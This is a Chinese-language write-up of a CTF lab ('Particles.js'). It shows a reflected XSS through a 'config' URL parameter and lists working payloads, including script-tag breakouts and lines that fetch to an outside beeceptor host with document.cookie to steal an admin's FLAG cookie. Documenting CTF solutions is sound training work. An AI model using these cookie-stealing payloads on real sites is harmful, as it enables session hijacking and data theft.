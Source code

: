 # lab_Particles.js

1. 一開始來到這個網站，發現這邊有三個選項可以選擇，然後去 change，三個分別都點選後，
發現會在網址後面分別更改為 config=Default、config=Bubble、config=Snow，
    
    ![截圖 2022-12-31 下午10.23.38.png](lab_Particles%20js%204b2def8bd1d842f18eb6d87784298fde/%25E6%2588%25AA%25E5%259C%2596_2022-12-31_%25E4%25B8%258B%25E5%258D%258810.23.38.png)
    
    ![截圖 2022-12-31 下午10.23.05.png](lab_Particles%20js%204b2def8bd1d842f18eb6d87784298fde/%25E6%2588%25AA%25E5%259C%2596_2022-12-31_%25E4%25B8%258B%25E5%258D%258810.23.05.png)
    

1. 接下來隨意去更改 config 的值為 ‘test’，會發現他會將<Script> 裡面的 config.value 的值設為’test’，然後去 fetch(’/test.json’)，這樣表示我在 URL 裡面輸入的字串是可以控制它前端 html 裡面的內容，因此我嘗試將 config 後面的值改為 </script><script>alert(”Hacker_it!”)</script>，從 Response 內容可以看到這邊可以執行我的程式碼，也代表這邊 XSS Attack 是可以成功得，從網也點開可以看到彈跳出視窗 hack it!
    
    ![截圖 2022-12-31 下午10.31.40.png](lab_Particles%20js%204b2def8bd1d842f18eb6d87784298fde/%25E6%2588%25AA%25E5%259C%2596_2022-12-31_%25E4%25B8%258B%25E5%258D%258810.31.40.png)
    
    ![截圖 2022-12-31 下午10.41.50.png](lab_Particles%20js%204b2def8bd1d842f18eb6d87784298fde/%25E6%2588%25AA%25E5%259C%2596_2022-12-31_%25E4%25B8%258B%25E5%258D%258810.41.50.png)
    
    ![截圖 2022-12-31 下午10.41.22.png](lab_Particles%20js%204b2def8bd1d842f18eb6d87784298fde/%25E6%2588%25AA%25E5%259C%2596_2022-12-31_%25E4%25B8%258B%25E5%258D%258810.41.22.png)
    

1. 接下來嘗試使用 Beecepter 接收傳出來的資訊，先在 console 裡面設定 document.cookie ，然後再 fetch('[https://richard.free.beeceptor.com?'+document.cookie](https://richard.free.beeceptor.com/?%27+document.cookie))，就可以看到 beecepter 有接收到資訊，然後我把這段 fetch 放到 XSS 的地方，也一樣可以在 beecepter 收到

![截圖 2022-12-31 下午11.09.57.png](lab_Particles%20js%204b2def8bd1d842f18eb6d87784298fde/%25E6%2588%25AA%25E5%259C%2596_2022-12-31_%25E4%25B8%258B%25E5%258D%258811.09.57.png)

![截圖 2022-12-31 下午11.11.13.png](lab_Particles%20js%204b2def8bd1d842f18eb6d87784298fde/%25E6%2588%25AA%25E5%259C%2596_2022-12-31_%25E4%25B8%258B%25E5%258D%258811.11.13.png)

```
[https://particles.ctf.zoolab.org/?config=1;alert("hack_it");console.log](https://particles.ctf.zoolab.org/?config=1;alert(%22hack_it%22);console.log)({x://\
[https://particles.ctf.zoolab.org/?config=1;fetch("https://richard.free.beeceptor.com?"%2bdocument.cookie);console.log](https://particles.ctf.zoolab.org/?config=1;alert(%22hack_it%22);console.log)({x://\
https://particles.ctf.zoolab.org/?config=</script><script>alert(hacker_it!)</script>
https://particles.ctf.zoolab.org/?config=</script><script>fetch("https://richard.free.beeceptor.com?"%2bdocument.cookie)</script>
```

1. 接下來只要找到 admin 的 cookie 就可以將 admin 的 cookie 回傳，於是開始隨意翻閱瀏覽器，點了一下 Report，之後發現 Cookie 裡面有個 Name 為 FLAG 的 Cookie，然後隨意嘗試了一下發現在一般的頁面，設一個 Cookie Name 為 admin，然後再執行 XSS ，再按 Report 就可以成功獲得 FLAG。這邊的話我不是很明確知道 Report 這個按鈕點下去他背後的行為，只能從黑箱的方式去猜測，他會在 Server 端執行一遍 XSS 的 payload，所以在 Client 端的時候 Fetch 回傳 admin 的值會是空的(第一個頁面），按一下 Report 之後，Fetch 回傳 admin 的值就會是有內容的東西。
    
    ![截圖 2023-01-01 上午1.58.01.png](lab_Particles%20js%204b2def8bd1d842f18eb6d87784298fde/%25E6%2588%25AA%25E5%259C%2596_2023-01-01_%25E4%25B8%258A%25E5%258D%25881.58.01.png)
    
    ![截圖 2023-01-01 上午2.32.48.png](lab_Particles%20js%204b2def8bd1d842f18eb6d87784298fde/%25E6%2588%25AA%25E5%259C%2596_2023-01-01_%25E4%25B8%258A%25E5%258D%25882.32.48.png)
    
    ![截圖 2023-01-01 上午2.16.58.png](lab_Particles%20js%204b2def8bd1d842f18eb6d87784298fde/%25E6%2588%25AA%25E5%259C%2596_2023-01-01_%25E4%25B8%258A%25E5%258D%25882.16.58.png)